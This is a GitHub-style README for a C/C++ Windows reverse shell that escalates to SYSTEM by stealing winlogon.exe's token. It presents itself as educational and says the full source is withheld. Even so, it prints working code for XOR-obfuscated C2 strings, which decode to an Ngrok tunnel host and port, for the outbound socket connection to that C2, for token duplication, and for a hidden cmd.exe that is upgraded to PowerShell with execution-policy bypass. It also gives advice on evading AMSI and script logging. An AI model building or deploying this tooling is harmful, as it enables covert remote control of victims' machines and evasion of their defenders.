

# WAN-Capable Privilege Escalation & Reverse Shell PoC

> **Disclaimer:** This repository contains documentation and analysis of a custom Proof of Concept (PoC) tool developed for educational purposes and security research. The full source code is intentionally omitted to prevent misuse. This project demonstrates foundational knowledge of Windows Internals, WinAPI interaction, and dynamic low-level socket programming over the internet.

## 📌 Project Overview
This project is an advanced iteration of a custom **Reverse Shell** written in **C/C++**, featuring built-in **Privilege Escalation** capabilities. Unlike standard local payloads, this tool implements dynamic DNS resolution, allowing it to connect back to Command and Control (C2) servers hosted over the internet (WAN) using tunneling services like **Ngrok**. 

The payload bypasses standard user limitations by manipulating Windows Access Tokens, elevating the execution context to `NT AUTHORITY\SYSTEM` before establishing the remote connection.

The primary goal of this research was to explore:
* **Dynamic DNS Resolution** (`Ws2tcpip.h` / `getaddrinfo`)
* **Windows API & Handle Manipulation**
* **Token Impersonation & Duplication** (`Advapi32.lib`)
* **Process Injection & Pipe Redirection**

## ⚙️ Key Features

### 1. Dynamic C2 Resolution (WAN Support)
Legacy reverse shells often hardcode IP addresses (`inet_addr`), which limits them to local networks. This tool utilizes `getaddrinfo` to resolve domain names dynamically, enabling seamless integration with cloud-hosted listeners and Ngrok tunnels (e.g., `6.tcp.eu.ngrok.io`).


### 2. Dual-Mode Architecture
To maintain operational security (OpSec), the code allows for two compilation modes:
* **Generator Mode (`BUILD_MODE 0`):** A local utility that encrypts the C2 domain and port.
* **Attack Mode (`BUILD_MODE 1`):** The final payload containing only obfuscated strings and the execution logic.


### 3. String Obfuscation (XOR)
To evade static analysis and basic signature detection, all sensitive strings (C2 IP address and Port) are encrypted at rest.
* **Algorithm:** Custom XOR implementation.
* **Runtime Behavior:** Strings are decrypted in memory only at the moment they are needed for the connection, and then wiped.

### 4. Automatic Privilege Escalation (Token Theft)
* **Target:** `winlogon.exe` (System integrity process).
* **Technique:**
  1.  Enables `SeDebugPrivilege`.
  2.  Enumerates running processes via `CreateToolhelp32Snapshot`.
  3.  Duplicates the target's Primary Token (`DuplicateTokenEx`).
  4.  Spawns the reverse shell using `CreateProcessWithTokenW`.


### 5. Custom I/O Pipe Handling
Instead of using standard library calls, the shell interaction is managed via Windows Pipes.
* Standard Input/Output/Error (STDIN/STDOUT/STDERR) are redirected through anonymous pipes.
* A dedicated loop forwards data between the Winsock socket and the `powershell.exe` process pipes.

---
## 🛠️ Configuration & Customization

The payload initially spawns `cmd.exe` to establish the base connection and immediately performs an automatic **Shell Upgrade** by injecting `powershell -NoP -Exec Bypass -W Hidden` through the anonymous pipes. This provides advanced post-exploitation capabilities right out of the box.

> **🛡️ OpSec Note:**
> While the automatic PowerShell upgrade offers greater utility, it triggers significantly more alerts (AMSI, Script Block Logging) than a standard command prompt. For strict evasion scenarios, the PowerShell upgrade strings (`silence` and `upgrade` variables) can be removed from the source code, leaving a raw, stealthier `cmd.exe` shell.


## 🔧 Execution Flow (Diagram)
Below is the logical flow of the payload execution:

1.  **Initialization:** The payload starts and dynamically decrypts its C2 configuration (Domain/IP and Port) in memory.
2.  **Privilege Check:** It calls a custom `IsSystem()` function to evaluate the current user context.
    * *If `SYSTEM`:* Proceed directly to payload execution.
    * *If `User`:* Initiate Escalation Routine.
3.  **Escalation Routine:**
    * The tool hunts for the PID of `winlogon.exe` (a high-integrity system process).
    * It acquires a handle with `TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY`.
    * It relaunches itself using the stolen `SYSTEM` token.
4.  **Dynamic Resolution (WAN):** Unlike local shells, the payload utilizes `getaddrinfo` to perform a DNS lookup, resolving the external C2 domain (e.g., an Ngrok tunnel) into a routable IP address.
5.  **Connection & Execution:** Finally, it establishes an outbound TCP connection to the resolved address, spawns a hidden `cmd.exe` process via anonymous pipes, and immediately injects an in-memory upgrade to `powershell.exe` for advanced post-exploitation.
   


### Code Snippet: Dual-Mode Build & Obfuscation (WAN)
*Demonstrates how preprocessor directives control the build output and how the Ngrok C2 domain and port are decrypted only at runtime:*

```c
#define XOR_KEY 0x42

// 0 = Generator (Output Encrypted Bytes), 1 = Attack (Execute Payload)
#define BUILD_MODE 1 

// Attack Mode Strings (Ngrok Domain & Port pasted from Generator Output)
char ENCRYPTED_IP[] = "\x72\x6c\x36\x21\x32\x6c\x27\x37\x6c\x2c\x25\x30\x2d\x29\x6c\x2b\x2d";
char ENCRYPTED_PORT[] = "\x73\x74\x7a\x73\x73";

// Helper function for decryption (Symmetric XOR)
void xor_crypt_string(char* input, int len, char* output) {
    for (int i = 0; i < len; i++) {
        output[i] = input[i] ^ XOR_KEY;
    }
    output[len] = '\0';
}

// ... Inside Payload Logic ...
// Decrypt WAN domain and port at runtime before DNS resolution
xor_crypt_string(ENCRYPTED_IP, (int)strlen(ENCRYPTED_IP), decrypted_ip);
xor_crypt_string(ENCRYPTED_PORT, (int)strlen(ENCRYPTED_PORT), decrypted_port_str);
```

### Code Snippet: Dynamic DNS Resolution (WAN Specific)
*A snippet demonstrating the shift from local IP binding to dynamic domain resolution, allowing connections over the internet to services like Ngrok:*

```c
struct addrinfo* result = NULL, hints;

ZeroMemory(&hints, sizeof(hints));
hints.ai_family = AF_INET;
hints.ai_socktype = SOCK_STREAM;
hints.ai_protocol = IPPROTO_TCP;

// getaddrinfo replaces legacy inet_addr to resolve the C2 domain name
if (getaddrinfo(decrypted_ip, decrypted_port_str, &hints, &result) != 0) {
    WSACleanup();
    return;
}

sock = socket(result->ai_family, result->ai_socktype, result->ai_protocol);
if (sock == INVALID_SOCKET) {
    freeaddrinfo(result);
    WSACleanup();
    return;
}

// Establishing the outbound WAN connection
if (connect(sock, result->ai_addr, (int)result->ai_addrlen) != 0) {
    freeaddrinfo(result);
    closesocket(sock);
    WSACleanup();
    return;
}

freeaddrinfo(result);

// ... Proceed with pipe redirection and shell execution ...
```

### Code Snippet: Token Manipulation Logic
*A snippet demonstrating the logic used for token duplication (Sanitized for display):*

```c
// Enabling necessary privileges for token manipulation
EnablePrivilege(SE_DEBUG_NAME);
EnablePrivilege(SE_ASSIGNPRIMARYTOKEN_NAME);
EnablePrivilege(SE_INCREASE_QUOTA_NAME);
EnablePrivilege(SE_IMPERSONATE_NAME);

// ... Finding target process logic ...

// Duplicating the token to create a Primary Token for new process creation
if (OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken)) {
    HANDLE hDup;
    DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hDup);
    // hDup is now a valid SYSTEM token ready for CreateProcessWithTokenW
}
```

### Code Snippet: Process Spawning & Shell Upgrade via Pipes
*Shows how the initial cmd.exe process is spawned with redirected I/O pipes, followed immediately by an in-memory upgrade to powershell.exe:*

```c
HANDLE hStdInRead, hStdInWrite;
HANDLE hStdOutRead, hStdOutWrite;
STARTUPINFOA si;
PROCESS_INFORMATION pi;

char cmd[] = "cmd.exe /Q";
char silence[] = "@echo off\r\n";
char upgrade[] = "powershell -NoP -Exec Bypass -W Hidden\r\n";

// ... Pipe Creation and StartupInfo Setup (Hidden Window) ...

// Spawning the initial raw shell with redirected I/O
if (!CreateProcessA(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi)) {
    closesocket(sock);
    return;
}

// Close unneeded handles for the parent process
CloseHandle(hStdInRead);
CloseHandle(hStdOutWrite);

// Injecting the automatic PowerShell upgrade into the anonymous pipe
WriteFile(hStdInWrite, silence, (DWORD)strlen(silence), &bytesWritten, NULL);
Sleep(50);
WriteFile(hStdInWrite, upgrade, (DWORD)strlen(upgrade), &bytesWritten, NULL);

// ... Enter Socket-to-Pipe I/O loop ...
}
```
